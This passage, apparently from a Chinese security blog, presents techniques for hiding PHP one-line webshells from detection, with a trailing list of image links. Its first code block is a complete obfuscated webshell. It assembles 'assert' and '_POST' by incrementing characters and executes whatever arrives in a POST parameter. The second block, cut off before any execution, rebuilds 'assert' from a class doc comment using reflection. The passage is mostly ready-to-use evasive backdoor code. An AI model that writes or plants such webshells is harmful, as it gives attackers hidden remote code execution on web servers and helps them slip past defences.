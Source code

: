 大佬还贴出了另外两种思路：

这个一句话是在鹏城杯线下赛中出现的，通过自增得到关键字，然后定义类，类内函数自调用来进行 bypass。

```
<?php
error_reporting(0);//去除错误回显
class Foo  //创建名为FOO的类
{
    function Variable($c)
    {
        $name = 'Bar';
        $b=$this->$name(); // 调用Bar
        $b($c);
    }
    function Bar()
    {
    	$__='a';
        $a1=$__; //$a1=a;
		$__++;$__++;$__++;$__++;//$a__=e;
		$a2=$__; //$a2=e;
		$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;//$__=r;
		$a3=$__++; //$a3=r;$__=s;
		$a4=$__++; //$a4=s;$__=t;
		$a5=$__;   //$a5=$__=t;
		$a=$a1.$a4.$a4.$a2.$a3.$a5; //$a=assert
        return $a; //将$a的值返回
    }
}
function variable(){
	$_='A';
	$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++; //$_=O;
	$b1=$_++; //$b1=O;$_=P;
	$b2=$_;   //$b2=$_=P
	$_++;$_++;$_++; //$_=S
	$b3=$_++; //$b3=S;$_=T;
	$b4=$_; //$b4=$_=T;
	$b='_'.$b2.$b1.$b3.$b4;//$b=_POST
	return $b; //将$b的值返回
}
$foo = new Foo(); //创建名为foo对象
$funcname = "Variable"; //将Variable的值赋给变量funcname
$bb=${variable()}[variable()]; // $bb=_POST[_POST]);
$foo->$funcname($bb); //调用 $foo->Variable($bb)
?>
```

另一种，我们可以利用 php 的反射机制，获取注释的内容，然后拼凑出 assert，从而动态执行，代码如下：

```
<?php
/**
-
as
-
5
-
se
-
*/
class a{
   function say(){$moza = "good_boy";}
}
$aa = new ReflectionClass(new a());//建立反射对象
$arr = explode("*", $aa->getDocComment());//获取对象a的注释
$str = ereg_replace("-","",$arr[2]);//获取对象a的注释
```

[1]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_105221.png
[2]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_105621.png
[3]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_110137.png
[4]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_111310.png
[5]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_111844.png
[6]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_113023.png
[7]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_113320.png
[8]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_113642.png
[9]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_113902.png
[10]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_114323.png
[11]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_115928.png
[12]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_120233.png
[13]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_120507.png
[14]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_131752.png